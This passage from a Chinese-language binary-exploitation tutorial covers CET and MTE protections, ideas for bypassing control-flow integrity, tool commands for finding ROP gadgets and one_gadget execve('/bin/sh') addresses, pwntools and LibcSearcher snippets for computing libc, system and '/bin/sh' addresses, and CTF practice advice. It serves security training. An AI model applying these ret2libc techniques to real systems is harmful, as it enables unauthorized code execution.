#### Intel Control-flow Enforcement Technology (CET)

CET 提供硬件级防护：

- **Indirect Branch Tracking (IBT)**：间接跳转目标必须以 `ENDBR64` 指令开头
- **Shadow Stack**：独立的只读栈专门存储返回地址，`ret` 时与影子栈比对

```bash
# 检查 CPU 是否支持 CET
$ cat /proc/cpuinfo | grep cet
# flags: ... cet_ss cet_ibt ...
```

#### Memory Tagging Extension (MTE) - ARM

ARM v8.5 引入 MTE，为每个内存分配和指针附加 4-bit tag，运行时检查指针 tag 是否匹配目标内存 tag。可检测 UAF、堆溢出、栈溢出等内存安全问题。

#### 绕过 CFI 的思路（研究阶段）

1. **JOP（Jump-Oriented Programming）**：使用以 `jmp` 而非 `ret` 结尾的 gadgets
2. **COP（Call-Oriented Programming）**：利用合法的 `call; ret` 序列
3. **数据攻击**：不修改控制流，而是修改数据流（如修改 `uid` 为 0）
4. **利用 JIT**：覆写 JIT 生成的代码区域（W^X 保护除外）
5. **侧信道**：利用 CPU 缓存时序等侧信道信息

---

### 16.6.10 防护机制绕过的工具箱

```bash
# === 二进制分析 ===
checksec --file=./vuln              # 查看所有防护状态
file ./vuln                         # 查看二进制类型（PIE/静态/动态）
readelf -d ./vuln | grep -E 'BIND_NOW|FLAGS'  # 检查 RELRO
readelf -l ./vuln | grep GNU_RELRO  # 检查 RELRO 段

# === Gadget 搜索 ===
ROPgadget --binary ./vuln --only "pop|ret"
ROPgadget --binary ./vuln --ropchain
ropper -f ./vuln --search "pop rdi"
one_gadget /lib/x86_64-linux-gnu/libc.so.6  # 寻找 execve("/bin/sh") 的单个地址

# === 调试验证 ===
gdb -q ./vuln
info proc mappings                  # 查看内存映射
p/x *($fs_base + 0x28)             # 查看 canary
vmmap                               # pwngdb: 显示内存映射和权限
```

**pwntools 中的防护绕过辅助函数：**

```python
from pwn import *

# 自动处理栈对齐
ret = rop.find_gadget(['ret'])[0]

# 自动寻找 one_gadget
# one_gadget 偏移: libc_base + 0xe6c7e (具体值因libc版本而异)

# LibcSearcher: 通过泄露的地址自动确定 libc 版本
from LibcSearcher import *
libc = LibcSearcher('puts', leaked_puts_addr)
libc_base = leaked_puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
```

---

### 16.6.11 实战练习建议

1. **分层练习**：在 CTF 平台上按防护级别递进练习
   - Level 0：无防护 → 基础栈溢出 + shellcode
   - Level 1：NX → ROP + ret2libc
   - Level 2：NX + Canary → 泄露 canary 后 ROP
   - Level 3：NX + Canary + ASLR → 完整信息泄露 + ROP
   - Level 4：全防护 → 综合利用

2. **常用 CTF 平台**
   - pwnable.kr / pwnable.tw：经典 PWN 题库
   - CTFHub：分技能练习，按知识点分类
   - BUUCTF：大量真题复现

3. **本地靶场搭建**

```bash
# 编译不同防护级别的练习程序
gcc -o vuln_nx        vuln.c -z noexecstack -fno-stack-protector
gcc -o vuln_canary     vuln.c -z noexecstack -fstack-protector-all
gcc -o vuln_full       vuln.c -z noexecstack -fstack-protector-all -pie -D_FORTIFY_SOURCE=2
gcc -o vuln_full_relro vuln.c -z noexecstack -fstack-protector-all -pie -z relro -z now
```
